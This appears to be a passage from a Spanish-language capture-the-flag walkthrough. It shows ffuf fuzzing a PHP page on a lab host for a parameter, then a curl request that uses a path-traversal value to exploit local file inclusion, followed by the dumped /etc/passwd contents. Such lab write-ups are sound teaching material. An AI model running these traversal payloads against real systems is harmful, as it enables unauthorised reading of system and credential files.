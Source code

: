 Info:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.5.31/n3gr4/m414nj3.php?FUZZ=../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

page                    [Status: 200, Size: 1066, Words: 5, Lines: 23, Duration: 19ms]
:: Progress: [20469/20469] :: Job [1/1] :: 666 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

Veremos que efectivamente a funcionado, por lo que vamos a probarlo con un `curl` a ver que nos muestra.

```shell
curl 'http://<IP>/n3gr4/m414nj3.php?page=../../../../../../../etc/passwd'
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
p4l4nc4:x:1000:1000:p4l4nc4,,,:/home/p4l4nc4:/bin/bash
```
